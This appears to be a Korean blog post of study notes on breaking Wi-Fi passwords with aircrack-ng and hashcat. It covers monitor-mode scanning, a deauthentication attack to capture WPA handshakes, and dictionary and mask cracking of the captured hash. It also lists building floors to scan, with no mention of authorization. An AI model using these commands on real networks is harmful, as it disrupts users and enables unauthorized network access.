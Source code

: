 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
  - Aircrack-ng
---
```

# Aircrack
```shell
iwconfig #랜카드 이름 확인
airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
airodump-ng wlan0 --band a -w [파일명] #파일로 저장
airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

사용예시
![](/assets/images/posts/2025-03-26-aircrack/bea8c9475a9856ca2c6d5ff48d3082dc_MD5.jpeg)
## 🛰️ 상단: AP (Access Point) 정보 테이블

| 항목명            | 의미                                           |
| -------------- | -------------------------------------------- |
| **BSSID**      | AP의 MAC 주소 (무선 공유기의 고유 식별자)                  |
| **PWR**        | 수신 신호 세기 (Power) - 숫자가 작을수록(0에 가까울수록) 신호가 강함 |
| **Beacons**    | 일정 간격으로 AP가 송신하는 비콘 패킷의 수                    |
| **#Data, #/s** | 데이터 패킷 수 및 초당 전송 속도                          |
| **CH**         | 채널 번호 (해당 AP가 사용하는 Wi-Fi 채널)                 |
| **MB**         | 최대 전송 속도 (Mbps)                              |
| **ENC**        | 암호화 방식 (Encryption: WPA2, WPA3 등)            |
| **CIPHER**     | 암호화에 사용되는 알고리즘 (예: CCMP, TKIP)               |
| **AUTH**       | 인증 방식 (예: PSK = Pre-shared Key, SAE 등)       |
| **ESSID**      | 네트워크 이름 (Wi-Fi SSID)                         |

## 📱 하단: 클라이언트(기기) 정보 테이블

|항목명|의미|
|---|---|
|**BSSID**|연결된 AP의 MAC 주소 (또는 Probe 중인 경우 NULL)|
|**STATION**|클라이언트(기기)의 MAC 주소|
|**PWR**|수신 신호 세기 (기기로부터 수신된 신호의 강도)|
|**Rate**|송수신 속도 (예: 6e-0은 6 Mbps)|
|**Lost**|손실된 패킷 수|
|**Frames**|수신된 프레임 수|
|**Notes**|기타 정보|
|**Probes**|클라이언트가 탐색 중인 SSID (연결하고자 하는 Wi-Fi 이름)|

PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임

SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

스캔할 층 4,6,7,19,25

Handshake 성공시 
![](/assets/images/posts/2025-03-26-aircrack/a04bfe866a566f081c5ff93c3e601a75_MD5.jpeg)

Crack 성공시
![](/assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

# hashcat으로 크랙
딕셔너리 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |

hashcat은 훨씬 빠르고 GPU 지원도 돼서 `aircrack-ng`보다 나아요.
~~그런데 써보니까 GPU가 죽으려해요~~
![](/assets/images/posts/2025-03-26-aircrack/b2a7f50f00c6af8e529d2ec1cd1a9018_MD5.jpeg)

## 이 GPU는 어떤 성능이야?

|항목|내용|
|---|---|
|GPU 종류|**내장 그래픽** (iGPU)|
|성능 수준|엔트리급 (게이밍/병렬처리 성능 낮음)|
|OpenCL 지원|**있긴 하지만 매우 제한적**|
|해시 처리 성능|약 **2~10k H/s (초당 수천 해시)** 수준|

---

## 🎯 해시캐팅 속도 예시

`hashcat -m 22000 -a 3 ?u?u?u?u?d?d?d?d`  
(앞 4자리 대문자 + 뒤 4자리 숫자 = 약 4.56억 조합)

### ⏱ 대략 계산해보면:

예를 들어 **초당 5000 해시 처리**된다고 가정하면:
```
456,000,000 / 5,000 = 91,200초 ≈ 25시간
```

만약 속도가 더 낮아서 **2000 H/s**라면:
```
456,000,000 / 2,000 = 228,000초 ≈ 63시간
```
이 시간들 또한 

## ⚠️ 주의할 점

- **Intel iGPU는 병렬 연산에 최적화된 구조가 아니기 때문에 발열도 크고 속도도 느려.**
    
- `hashcat`에서 GPU로 인식이 되더라도 성능은 **CPU보다 약간 나은 수준**이야.
    
- 장시간 돌릴 경우 **노트북이 과열되거나 쓰로틀링**(성능 제한) 걸릴 수도 있어.
    

---

## 🧠 현실적인 제안

|방법|설명|
|---|---|
|✅ CPU 병렬 작업으로 돌리기|`-D 1` 옵션으로 CPU만 사용 가능|
|✅ 마스크 좁히기|예: 고정된 접두사/패턴이 있다면 시도 범위 줄이기|
|🚀 GPU 장착 데스크탑/서버 활용|GTX 1660 이상급이면 수십~수백만 H/s 가능|
|☁️ 클라우드 크랙 서비스|Hashcat 돌릴 수 있는 AWS/GCP/버추얼 머신 사용|

